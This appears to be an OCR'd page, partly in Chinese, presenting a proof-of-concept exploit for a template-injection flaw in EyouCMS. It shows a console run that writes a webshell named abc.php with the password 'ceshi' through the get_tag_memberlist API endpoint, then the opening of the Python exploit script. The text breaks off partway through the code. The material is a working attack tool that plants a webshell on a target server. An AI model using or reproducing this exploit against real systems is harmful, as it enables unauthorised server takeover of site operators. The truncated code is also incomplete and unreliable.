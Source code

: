 htmlcode参数作为随机方式传递

### poc

    silly@PenetrationOs:~#: python eyoucms-ssti.py -u http://192.168.1.106:8085/ -o abc

    [+] 正在请求目标地址:http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist
    [*] 目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist存活
    [+] 正在向目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist写入abc.php
    [*] 疑似成功写入Webshell
    [+] 正在探测Webshell(http://192.168.1.106:8085/abc.php)是否存活
    [*] Webshell(http://192.168.1.106:8085/abc.php)已存活
    [*] 密码：ceshi
    [*]
    python

    #!/usr/bin/python

     -*- coding: UTF-8 -*-

    import requests

    import sys,getopt

    import json,base64

    import time



    class Eyoucms:

        session = None

        headers = None

        password = "ceshi"

        output = "ceshi"

        requesturi = "/?m=api&c=ajax&a=get_tag_memberlist"



        def __init__(self,headers):

            self.headers = headers

            self.getparam(sys.argv[1:])

            self.requestsdata = {

                "attarray":self.createpyload(),

                "htmlcode":time.time()

            }

            self.run()



        def getparam(self,argv):
